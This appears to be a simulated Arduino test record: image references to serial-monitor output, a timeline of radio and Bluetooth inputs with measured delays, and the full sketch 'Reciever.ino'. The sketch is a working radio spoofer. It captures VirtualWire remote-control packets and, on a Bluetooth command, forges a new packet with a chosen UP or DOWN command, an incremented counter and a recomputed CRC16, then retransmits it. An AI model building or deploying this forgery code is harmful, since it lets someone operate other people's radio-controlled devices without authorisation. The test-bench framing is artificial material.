
This sketch was run on a simulated Arduino Uno, built with avr-gcc and run on an emulated ATmega328P. Shown: the last lines printed to the serial monitor. The test bench sets the inputs (shaded band). No radio packets arrive unless stated.

Above: at 4.4 s.
4.5 s: radio packet "1" arrives
At 5.7 s:

6.0 s: "1" received over the second serial link
At 6.8 s:

7.5 s: "2" received over the second serial link
At 7.9 s:

9.0 s: "1" received over the second serial link
At 10.2 s:

10.5 s: "2" received over the second serial link
At 11.4 s:

12.0 s: radio packet "2" arrives
At 12.6 s:


The sketch:

Reciever.ino
```cpp
#include <SoftwareSerial.h>
#include <VirtualWire.h>
#include "Arduino.h"
#include "uCRC16BPBLib.h"

const int LEN = 7;
const int RECIEVER_PIN = 12;
const int TRANSMIT_PIN = 11;

const byte UP = 0xAB;
const byte DOWN = 0xAE;

uCRC16BPBLib crc;
SoftwareSerial bluetooth(2, 4);

byte message[LEN];
byte messageLength = LEN;
int intercepted = 0;

byte part_A = 0, part_B = 0;

void get_checksum(byte params[]) {
  crc.reset();
  crc.feedByte(params[1]);
  crc.feedByte(params[2]);
  crc.feedByte(params[3]);
  uint16_t p = crc.getResult();
  uint8_t xlow = p & 0xff;
  uint8_t xhigh = (p >> 8);
  part_A = xhigh;
  part_B = xlow;
}

void repeat_last(byte command) {
  if (intercepted == 0) {
    Serial.println("Aborting because no recieved packages..");
    return;
  }
  Serial.println("Recieved command via Bluetooth..");
  Serial.println(command, HEX);
  byte prev_message[LEN];
  for (int i = 0; i < LEN; i++) {
    prev_message[i] = message[i];
  }
  prev_message[1] = command;
  prev_message[3]++;
  if (prev_message[3] == 0) {
    prev_message[2]++;
  }
  get_checksum(prev_message);
  prev_message[4] = part_A;
  prev_message[5] = part_B;
  Serial.println("New package generated");
  for (int i = 0; i < LEN; i++) {
    Serial.print(prev_message[i], HEX);
    Serial.print(" ");
    message[i] = prev_message[i];
  }
  Serial.println();
  vw_send(message, LEN);
  vw_wait_tx();
}

void setup() {
  Serial.begin(9600);
  bluetooth.begin(9600);
  delay(200);
  bluetooth.print("Spoofer");
  Serial.println("Reciever is ready");
  vw_set_rx_pin(RECIEVER_PIN);
  vw_set_tx_pin(TRANSMIT_PIN);
  vw_setup(2000);
  vw_rx_start();
  delay(3000);
}

void loop() {
  if (bluetooth.available()) {
    char value = bluetooth.read();
    if (value == '1') {
      repeat_last(UP);
    } else if (value == '2') {
      repeat_last(DOWN);
    }
  }
  if (vw_get_message(message, &messageLength)) {
    intercepted++;
    for (int i = 0; i < messageLength; i++) {
      Serial.print(message[i], HEX);
      Serial.print(" ");
    }
    Serial.println();
    String time_hash = String(message[4], HEX) + " " + String(message[5], HEX);
    unsigned char* buf = new unsigned char[100];
    time_hash.getBytes(buf, 100, 0);
    const char *str2 = (const char*) buf;
    bluetooth.write(str2);
  }
}
```

Measured:
- after the input at 4.5 s, the serial monitor: prints a new line at once (image 1)
- after the input at 6.0 s, the serial monitor: prints a new line at once (image 2)
- after the input at 7.5 s, the serial monitor: prints a new line at once (image 3)
- after the input at 9.0 s, the serial monitor: prints a new line after 0.06 s (image 4)
- after the input at 10.5 s, the serial monitor: prints a new line after 0.06 s (image 5)
- after the input at 12.0 s, the serial monitor: prints a new line at once (image 6)
